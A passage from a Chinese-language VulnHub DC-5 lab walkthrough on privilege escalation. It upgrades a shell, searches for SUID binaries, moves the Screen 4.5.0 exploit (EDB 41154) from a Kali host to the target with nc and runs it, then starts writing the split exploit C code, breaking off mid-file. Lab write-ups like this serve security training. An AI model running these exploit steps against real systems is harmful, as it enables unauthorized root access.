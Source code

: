 
# 后期-提权

升级下
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

找带 suid 的文件
```bash
find / -perm -u=s 2>/dev/null
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC5/11.png)

在 searchsploit 里找到了一个可以提权的，版本正好是 Screen 4.5.0
```
searchsploit -w screen 4.5.0
```

访问 https://www.exploit-db.com/exploits/41154 下载 POC

kali 上发送
```
nc -nlvp 6666 < 41154.sh
```

靶机上接收，并运行
```bash
cd /tmp
nc 192.168.141.134 6666 > 41154.sh
sh 41154.sh
```

等了半天，没有提成功，网上搜了下，其他人的做法是将 poc 拆分开来运行，照着试试看

在 kali 下运行
```bash
tee libhax.c <<-'EOF'
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF

tee rootshell.c <<-'EOF'
#include <stdio.h>
int main(void){
    setuid(0);
```
